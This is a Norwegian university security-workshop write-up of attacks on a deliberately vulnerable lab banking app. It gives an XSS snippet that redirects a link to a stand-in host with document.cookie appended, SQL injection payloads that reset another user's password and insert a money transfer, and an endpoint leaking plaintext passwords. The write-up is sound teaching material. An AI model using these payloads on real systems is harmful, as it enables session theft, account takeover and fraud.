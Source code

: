 ## IDATT2105 Full-stack applikasjonsutvikling
# Sikkherhetsworkshop

## Oppgave 1 (A3)

- Klarer du å injisere javascript inn i nettsidene? 

-  Klarer du å være så ekkel at du legger inn en betaling til sidemannen som gjør at de blir omdirigert til en ondsinnet side med innholdet av cookiene som parameter når de går inn på "konto" i sin nettbank?

## Løsning:

### Injisere javascript

Fra Jquery dokumentasjonen kan vi se at .html() metoden åpner opp siden til cross site scripting.

> By design, any jQuery constructor or method that accepts an HTML string — jQuery(), .append(), .after(), etc. — can potentially execute code. This can occur by injection of script tags or use of HTML attributes that execute code (for example, <img onload="">). Do not use these methods to insert strings obtained from untrusted sources such as URL query parameters, cookies, or form inputs. Doing so can introduce cross-site-scripting (XSS) vulnerabilities. Remove or escape any user input before adding content to the document.

Med metoden initTable så kan vi også å sende en beskrivelse med script i kan man få kode til kjøre på andre sine nettlesere.

![](assets/2021-04-09-12-42-35.png)

Her ser vi hvordan dette kommer opp i HTMLen

![](assets/2021-04-09-12-44-01.png)

Når en annen åpner opp siden får de dette:

![](assets/2021-04-09-12-43-26.png)

### Betaling som omdirigerer med cookie

Vi kan bruke denne javascript koden til å forandre på hvor betaling knappen sender oss.

```javascript
document
.querySelector("#navbar > ul:nth-child(1) > li:nth-child(3) > a")
.setAttribute('href', "www.ourevilsite.com");
```

Om vi ønsker å hente ut cookie data kan vi bruke document.cookie

```javascript
.setAttribute('href', "https://www.test.com/" + document.cookie)
```

Her ser vi hvor man blir derigert etter man trykker på betaling knappen:

![](assets/2021-04-09-12-46-55.png)

## Oppgave 2 (A1)

- Klarer du å endre passordet til en annen i gruppa ved å bruke SQLinjection? 

- Klarer du å overføre masse penger til deg selv fra en annen i gruppa ved å bruke SQL-injection? 


## Løsning

### Endre passord til en annen i gruppa

Passord blir ikke rengjort/escaped på serveren så her kan vi bruke SQLinjection.
For eksempel på metoden addUser kan vi med et spesefikt passord lage vår egen query

![](assets/2021-04-09-12-49-00.png)

For å gjennomføre en SQL injection legger vi passordet som:
```SQL
123'); 
UPDATE user SET password = 'easyPassword' WHERE (email = '123@hotmail.com
```

Dette slutter den orginale SQL spørringen og begynner vår egen der vi forandrer på passordet. 

En parentes og apostrof brukes på slutten av meldingen så det fungerer sammen med slutten av kommandoen som står i serveren.


### Overføre masse penger til deg selv fra en annen i gruppa

Når vi ønsker å sende en transaksjon kan vi bare bytte ut UPDATE user med en INSERT INTO transaction. 

Kommandoen vi brukte er:

```SQL
123'); 
INSERT INTO transaction (from_email,to_email,text,amount,transaction_time) 
VALUES('123@hotmail.com', 'jesperfh@ntnu.no','hei hei lettjente penger',5000,'2021-01-19 03:14:07
```

Dette er resultatet:

![](assets/2021-04-09-12-52-41.png)

## Oppgave 3 (A7 og A2)

- Klarer du å finne passordet til en på gruppa di, kun ved å bruke
nettleseren?

- Identifiser 2 grove mangler i applikasjonen.

## Løsning

### Finne passord ved å bruke nettleseren

Vi kan bruke URLen: 
`/NotSoSecureBank/webresources/user/[email here]` dette returnerer en JSON av bruker dataen.

Postman applikasjonen kan være hjelpsom her.

Her er resultatet fra GET request på URLen:

```JSON
{
    "email": "123@hotmail.com",
    "firstName": "Michal",
    "lastName": "Panasewicz",
    "password": "easyPassword"
}
```
## Grove feil

En grov feil med serveren er at **passordene er lagret i klartekst**. Passord burde aldri lagres i klar tekst, istedet burde man bruke SHA encoding med salt. Med denne metoden så kan en hacker selv etter å ha fått full tilgang til databasen ikke få passordene.

At **prepareStatement ikke er brukt på alle SQL statements**. Vi ser for getTransaction metoden at dette blir brukt, men ikke på addUser metoden. Sikkerheten av en applikasjon er bare like god som dens svakeste ledd.
